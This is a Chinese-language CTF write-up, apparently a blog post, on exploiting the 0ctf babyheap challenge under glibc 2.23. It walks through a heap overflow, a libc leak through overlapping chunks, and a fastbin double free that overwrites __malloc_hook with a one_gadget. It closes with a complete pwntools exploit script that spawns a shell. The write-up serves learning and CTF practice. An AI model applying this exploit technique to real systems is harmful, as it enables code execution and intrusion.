 ```yaml
---
title: malloc hook
tags: [ctf-pwn,exp]
date: 2023-11-04 10:42:00
categories: [ctf-pwn]
excerpt: malloc hook 泄露libc
---
```


首先查看保护，发现全开

![](/img/0ctfbabyheap/media/2e4d9896a3691192ef608f635d67cde1.png)

然后题目里告诉了是2.23版本的libc，先用patchelf换一下libc的位置。

![](/img/0ctfbabyheap/media/f4d73666de533ddaed7caef8222b2ccf.png)

然后打开ida查看漏洞点

发现问题出在fill函数里，大小是用户输入的，可以溢出

![](/img/0ctfbabyheap/media/e17462f8199dc6d45437fb7e604f6c4b.png)

溢出的结果是可以控制下一个chunk的prevsz和inuse bit，将下一个chunk free之后可以合并前面的free chunk。如果被合并的部分里有可以uaf的部分，就可以泄露unsorted bin的头节点mainarena+88的地址，然后泄露libc基地址。

然后由于可以修改块的大小，可以通过把chunk从unsorted bin里切分拿出来，造成chunk overlapping，然后就可以绕过题目自带的检查，实施fastbin attack的double free（通过free两个序号不同，但是实际地址相同的chunk），结果就是可以实现伪造chunk中的任意地址写，然后就可以把前面泄露的libc中的one_gadget覆盖到malloc hook地址上，然后下一次malloc的时候就会调用execve(...binsh...)。

具体调试过程如下：

首先malloc几个chunk进去，然后free掉前两个

![](/img/0ctfbabyheap/media/d2c594003ca8f723af882a81bbbe1a68.png)

可以看到大小位0x100的chunk被放到了unsrted bin里，大小为0x80的放在了fastbin里

![](/img/0ctfbabyheap/media/4aa0984ec87d5b2721a1b63d3c0b0c35.png)

然后把0x80的chunk再分配出来，进行溢出到chunk 2

![](/img/0ctfbabyheap/media/b9f09f039c80b6c859a240d87234f2ed.png)

可以看到下一个chunk被改成了inuse为0的状态，prevsize被修改成了0x180，也就是前面两个chunk合并起来的大小

![](/img/0ctfbabyheap/media/85331735315afc1ca327cebb35515deb.png)

如果这时候free掉chunk2，会把最开头的chunk从unsorted bin里拿出来，与其进行合并，然后合并之后的chunk一起被放在unsorted bin里。由于合并的过程把中间的chunk 1给合并进去了，但是它还是被分配的状态，就可以进行chunk内容的输出泄露。

![](/img/0ctfbabyheap/media/be30a52291628b8928b773d513e70516.png)

![](/img/0ctfbabyheap/media/fde0bcc5e16b386bd5e757816bca0c8e.png)

![](/img/0ctfbabyheap/media/35f83a6472e30559fbcaafe98ab0f101.png)

形成了0x280这个大的chunk中嵌套着一个小的处于被分配的chunk的overlapping。而这个chunk处于0x280这个大块的0x100偏移处，想要通过它打印出来fd和bk要把这个unsorted bin切割一下。

![](/img/0ctfbabyheap/media/ebc1e7f864fc9b1007afad94f5096a31.png)

![](/img/0ctfbabyheap/media/21336897cb0da16774853f0e20bbefb0.png)

这样就有了两个处于完全相同地址上的free、malloc状态的chunk。

然后dump malloc状态的块，就会把free状态的chunk的fd bk打印出来，而这个fd bk由于unsorted bin里只有这一个chunk节点，fd bk会指向malloc_state结构体里的unsorted bin数组项，对应main_arena+88的位置，根据这个便宜可以确定libc的基地址。

![](/img/0ctfbabyheap/media/3b3ade9638161cf21a58f60c6558832b.png)

![](/img/0ctfbabyheap/media/4d12325def65c8eab07cc7712b394a95.png)

然后需要进行一个fast bin attack的double free，具体过程为：

free chunk a， free chunk b，free chunk a，malloc chunk a， malloc chunk b， edit chunk a，malloc chunk a，malloc 任意地址的chunk进行edit。

首先，不连续free a两次的原因是会有检查机制，bins会检查当前链表顶部的chunk的地址和现在free的地址是否相同，相同会被视为double free，但如果中间free了其它chunk，则会绕过这个检查。然后malloc a之后编辑它的fd，下次malloc 的时候自己写入的fd指向的地址会被视为一个chunk，然后malloc出来就可以对其进行写入，完成任意地址写。

上述流程在这道题里的表述为：

![](/img/0ctfbabyheap/media/aa97c259cc69d78bd91e0337b0db3725.png)

被写入的地方是malloc hook，如果malloc 时这上面的地址不是0，就会执行malloc hook指向的函数。向这个地址写入一段gadget的地址。

需要说明的点在于one_gadget得到的调用execve binsh的代码

![](/img/0ctfbabyheap/media/530dce4d01190360fdb9f3bcfb99a79c.png)

选用的是第二个0x4526a（这个我不知道为啥大家都用它，其他几个没试过）

然后通过fast bin attack 就执行了execve，拿到shell

测试：

在buuoj上打开这道题，验证了一下exp确实是对的。

![](/img/0ctfbabyheap/media/cf295e9198a01c7f4e082b7ccd607e5a.png)



```python
# Import pwntools
from pwn import *

# First establish the target process and libc file
target = process('./0ctfbabyheap', env={"LD_PRELOAD":"./libc-2.23.so"}) # The ld_preload is used to switch out the libc version we are using
#gdb.attach(target)
elf = ELF('libc-2.23.so')

# Establish the functions to interact with the program
def alloc(size):
	target.recvuntil(b"Command: ")
	target.sendline(b"1")
	target.recvuntil(b"Size: ")
	target.sendline(str(size).encode())

def fill(index, size, content):
	target.recvuntil(b"Command: ")
	target.sendline(b"2")
	target.recvuntil(b"Index: ")
	target.sendline(str(index).encode())
	target.recvuntil(b"Size: ")
	target.sendline(str(size).encode())
	target.recvuntil(b"Content: ")
	target.send(content)

def free(index):
	target.recvuntil(b"Command: ")
	target.sendline(b"3")
	target.recvuntil(b"Index: ")
	target.sendline(str(index).encode())

def dump(index):
	target.recvuntil(b"Command")
	target.sendline(b"4")
	target.recvuntil(b"Index: ")
	target.sendline(str(index).encode())
	target.recvuntil(b"Content: \n")
	content = target.recvline()
	return content

# Make the initial four allocations, and fill them with data
alloc(0xf0)# Chunk 0
alloc(0x70)# Chunk 1
alloc(0xf0)# Chunk 2
alloc(0x30)# Chunk 3
fill(0, 0xf0, "0"*0xf0)
fill(1, 0x70, "1"*0x70)
fill(2, 0xf0, "2"*0xf0)
fill(3, 0x30, "3"*0x30)

# Free the first two
free(0)# Chunk 0
free(1)# Chunk 1

# Allocate new space where chunk 1 used to be, and overflow chunk chunk 2's previous size with 0x180 and the previous in use bit with 0x0 by pushing 0x100
alloc(0x78)# Chunk 0
fill(0, 128, b'4'*0x70 + p64(0x180) + p64(0x100))

# Free the second chunk, which will bring the edge of the heap before the new chunk 0, thus effictively forgetting about Chunk 0
free(2)

# Allocate a new chunk that will move the libc address for main_arena+88 into the content 
alloc(0xf0)# Chunk 1
fill(1, 0xf0, '5'*0xf0)

# Print the contents of chunk 0, and filter out the main_arena+88 infoleak, and calculate the offsets for everything else
leak = u64(dump(0)[0:8])
libc = leak - elf.symbols['__malloc_hook'] - 0x68
system = libc + 0x4526a
malloc_hook = libc + elf.symbols['__malloc_hook']
free_hook = libc + elf.symbols['__free_hook']
fake_chunk = malloc_hook - 0x23
log.info("Leak is:        " + hex(leak))
log.info("System is:      " + hex(system))
log.info("Free hook is:   " + hex(free_hook))
log.info("Malloc hook is: " + hex(malloc_hook))
log.info("Fake chunk is:  " + hex(fake_chunk))
log.info("libc is:        " + hex(libc))

# Free the first chunk to make room for the double free/fastbin duplicaion
free(1)

# Allocate the next four chunks, chunk 5 will directly overlap with chunk 0 and both chunks will have the same pointer
alloc(0x10)# Chunk 1
alloc(0x60)# Chunk 2
alloc(0x60)# Chunk 4
alloc(0x60)# Chunk 5

# Commence the double free by freeing 5 then 0, and 4 in between to stop a crash
free(5)
free(4)
free(0)

# Allocate 2 chunks, fill in the chunk that was freed twice with the fake chunk, allocate that chunk again to add the fake chunk to the free list
alloc(0x60)# Chunk 4
alloc(0x60)# Chunk 5
fill(0, 0x60, p64(fake_chunk) + p64(0) + b'y'*0x50)
alloc(0x60)# Chunk 0

# Allocate the fake chunk, and write over the malloc hook with the One Shot Gadget
alloc(0x60)# Chunk 6
fill(6, 0x1b, b'z'*0x13 + p64(system))

# Trigger a Malloc call to trigger the malloc hook, and pop a shell
target.sendline(b'1\n1\n')
target.recvuntil(b"Size: ")

# Drop to an interactive shell to use the shell
target.interactive()
```

